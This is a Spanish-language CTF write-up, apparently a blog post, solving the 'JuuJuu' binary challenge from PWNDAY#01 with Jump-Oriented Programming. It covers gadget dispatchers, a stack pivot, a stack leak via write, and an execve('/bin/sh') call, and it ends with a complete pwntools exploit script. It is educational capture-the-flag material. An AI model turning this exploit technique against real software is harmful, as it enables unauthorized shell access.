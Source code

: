 ```yaml
---
layout: post
title: WRITEUP, JuuJuu, PWNDAY#01 soluciones
date: 2020-05-23 22:11
comments: true
categories: [Sin categoría]
---
```

<!-- wp:paragraph -->
<p>Hace un tiempo el gran <a href="https://c4ebt.github.io/"><strong>c4e</strong></a><strong> </strong>me mostró un challenge que había preparado, el cual me gusto tanto que nos motivamos a hacer PWNDAY#01, donde hicimos algunos challenge pwn con diferentes dificultades, (básico-intermedio-pro), el nivel pro fue un reto de <a href="https://c4ebt.github.io/"><strong>c4e</strong></a><strong> </strong>que antes de lanzarlo obviamente me invito a que solucionara para ver la dificultad, el reto me costo MUCHO, me tomo mas de 18 horas solucionarlo parcializado en varios días (pero por que soy un un n00b :D,  y bueno también porque nunca había utilizado JOP)<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>JOP o Jump Oriented Programming, es una técnica basada en ROP de la cual ya he hablado en este blog, pero en vez de usar un ret al final, usamos instrucciones de salto o JMP para volver a parte controlada del código con gadgets llamados dispatchers, para aprender más sobre JOP, acá hay un <a href="https://www.comp.nus.edu.sg/~liangzk/papers/asiaccs11.pdf"><strong>paper </strong></a>que explica bastante bien todo.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Primero comenzamos debugeando el binario, el cual podemos ver es un ejecutable x64<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/d6Q0oGMfS-PO77AAuhXj_bDjisXHOyuL2WvirnjpnI6bCNhbdGx3ID_igKxv0ZRXNPv9BoymjTU0tjCM2PNkD61x6Bfb1shCVn5AaU2oKjhKTOX4CdDCUwuYyzXeyBQFDHuh_3Wr" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Observamos las protecciones del binario usando <a href="https://github.com/slimm609/checksec.sh">checksec</a><br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/kUjY_aEuVv_rX8Qk50Fv_tn_cAysA1PV5lxD0oVXMfeDEb-ubnIdsjBMQ59XdZasVfVXBmO5ukWhBeNBlv3WGalFkCU_mWJfS8B0xdwR1ZNCoEdN7vTaJ1M6BFF3PtVjY01uFnsZ" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Las direcciones del binario se mantendrán debido al “flag” de “no-pie” esto nos será de ayuda ya que no debemos bypassear aslr usando gadgets dentro del binario, al observar el programa vemos que es bastante pequeno, escrtito en assembler, y con solo una funcion que lee</p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/0kaKbB3JMAlNESHFraL0R2JMDyIcFUsfu9ERXa_v4MjKlQ45he6vXNH5ZkUuhWWiQDUHVTRaeXJwqRViwWYXjLmuvPE5Y1AtZT0tXeikVgDiTjIl-hqcP7Ifi_mN65MkQQrPqalc" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ademas ya podemos observar que no hay aparentes instrucciones ret lo cual podemos comprobar ejecutando ropper y/o objdump</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Además todos los saltos son a registros “dereference” ([reg]), por lo cual no podemos hacer, por ejemplo, un pop RCX y luego saltar a RCX, ya que el salto será a [RCX], por lo cual debemos ver la forma de filtrar alguna direccion del stack para poder calcular los offsets a cada registro.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Para nuestra suerte tenemos un primer gadget que podemos usar como dispatcher y es la dirección 4000c7, la cual suma 8 a RSP y luego salta al dereference de RSP-0x8 por tanto nos permitirá saltar a la dirección que pongamos antes en nuestro payload, por lo que la enviaremos de la siguiente forma:<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/F9dYG3ZVDfsbgMbngSVOlZ3jcO7bJWki760g4WTijbBFs8SEzf-64e5pcQEjV1Zv-OepNs1gDlp_h7pV6gPHIATpkzsmuJenBnSc0EJsMhulp1KCBzr4FR755cBDazLU29r3rJns" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Usamos la direccion 4000d4 como salto ya que dicha dirección contiene un push de RSP que empujara la dirección de RSP al stack y nos permitirá controlar el salto a RCX ya que RCX contendrá la dirección del stack donde se encuentra ADD RSP + 8 ; JMP [rsp-0x8]<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/Y8O0LSbcwXYc4szVnE4RolzZlBhukS0e2OS2h1UUfdseLoHFRLVUXHDchdBo00pIYGxdALhS2MKi4wdA1jhVKZHpebRgDlAscHHOJirhg23PWfg8DycDSL-vp_6j22-KWeA73Odo" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Con esto ya podemos setear nuestro dispatcher en [RCX]&nbsp; y aprovechando el vuelo usando los gadgets lo seteamos a RBP y r10 (ya que el código lo permite). Ahora cualquier instrucción que pongamos se ejecutará, siempre cuando tenga un salto a [RCX]. [RBP] o [r10]<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Ahora nos topamos con otro obstáculo! El stack es muy pequeño, qué podemos hacer? Pivotear!, pues para eso usaremos la instrucción en 400131 la cual le resta 0x100 al stack con esto haremos un salto atrasa 32 bytes de nuestro salto inicial<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Seteamos el dispatcher nuevamente a RCX y ahora ejecutamos el syscall de write, para que write? Pues dado que no tenemos idea de donde encontrar nuestro stack para poder hacer una llamada a los registros sin tener que forzosamente dar cero a RAX (otro problema), pues debemos lekear una dirección del stack, para esto usaremos write y escribiremos el leak al stdout para leerlo. Con esto el programa se ejecutara de nuevo, pero esta vez tendremos la dirección del stack a nuestro alcance para hacer los cálculos de gadgets correspondientes</p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/cBSsS9AVRUBSYndiDIdGjS0v5McYASHa56xbTweIjzyG3FUd7X3QKaA8yI94IvlYStMiDjGQoYKNotT2kPj_C1X1mXTFbD1jt4rkG11WB4os3r7h2ZclZtUWW9QCTBPOynhLtfBM" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Perfecto ya con este leak podemos comenzar a preparar nuevamente el exploit repitiendo los primeros pasos pero esta vez en vez de llamar a write, jugaremos con los valores de los registros para poder llamar a execve() con el offset desde nuestro leak al string de /bin/sh que enviaremos al comienzo del payload<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/Vz3Yx0E-cTm9H9vsDHSqP821bBOOLmM_IHnLHAEbFj5u4dn9vegw4aJmMYE7hMU0HxiSkJnFvAuf-Xuo8cT9hPlEQhtf0LbpdQQ_e5oSlVykw2t2g_7LfJ0HKQMS4TiXd84u7e8d" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Perfecto y ejecutamos y SHELL<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Disfrute mucho este reto, siento que cuando uno se ve atrapado es cuando uno más aprende, de verdad felicitaciones nuevamente al creador del reto. EL resto de solucioens pueden verlas en mi github</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="https://github.com/dplastico/pwnday01">https://github.com/dplastico/pwnday01</a></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Aca les dejo el exploit final:</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
```python
from pwn import *

#0x4000c5 syscall
#offset 2 24
r = process('./juujuu')
#gdb.attach(r)
#r = remote('159.89.45.52', 5555)
empezando = "/bin/sh\0" #controlamos este registro, rsi

#stage 1
#------------------------------------------------------------#
#construyendo salto atras
jop = "A" * 24
#saltando a rsp +8 , [rsp-8]
jop += p64(0x4000d4)
jop += p64(0x4000c7)
#write syscall para hacer un leak del stack
jop += p64(0x4000fc)
jop += p64(0x004000b0)

junk = "A" * (cyclic_find('qaac')-len(empezando)-8-len(jop))                        
payload = empezando                                                               
payload += jop                                                                      
payload += junk

#seteando [rcx] a dispatcher                                                    
payload += p64(0x4000d4)                                                   
payload += p64(0x4000c7)

#[rbp] a dispatcher
payload += p64(0x00000000004000cf)

#setear r10 a dispatcher, por que si no mas
payload += p64(0x4000ec)

#mas stack (pivot)                                                      
payload += p64(0x0000000000400131)#sub rsp 100                                  
r.sendline(payload)

#--------------------------------------------------------#

#stage2
#recibiendo leak del stack
resp = u64(r.recv(8))
print "LEAK  STACK  :   ",hex(resp)

#seteando salto atras para syscall final execve()
jop2 = "A" * 32
#
jop2 += p64(0x4000de) #inc RAX
jop2 += p64(resp)#restaurando rcx
jop2 += p64(0x4000de) #inc RAX
jop2 += p64(resp)#restaurando rcx
jop2 += p64(0x4000de) #inc RAX
jop2 += p64(resp)#restaurando rcx
jop2 += p64(0x400108)#add rax 12
jop2 += p64(0x400108)#add rax 12
jop2 += p64(0x400108)#add rax 12
jop2 += p64(0x400125)
jop2 += p64(resp-0x1c8) #address the bin sh enviada esta 0x1c8 del leak de stack
jop2 += p64(0x40011b)# xor los otros reg
jop2 += p64(resp)
jop2 += p64(0x400101) #syscall

junk = "A" * (cyclic_find('qaac')-len(empezando)-8-len(jop2))                                             
payload2 = empezando  #/bin/sh                                                               
payload2 += jop2                                                                     
payload2 += junk
#seteando [rcx] a dispatcher                                                   
payload2 += p64(0x4000d5) #rax a 0x0 y luego a 0x1                                                  
payload2 += p64(resp)#restaurando rcx
payload2 += p64(0x4000de) #inc RAX
payload2 += p64(resp)#restaurando rcx
#ganando stack
payload2 += p64(0x0000000000400131)#sub rsp 100                                            
r.sendline(payload2)

r.interactive()
```
<!-- /wp:code -->
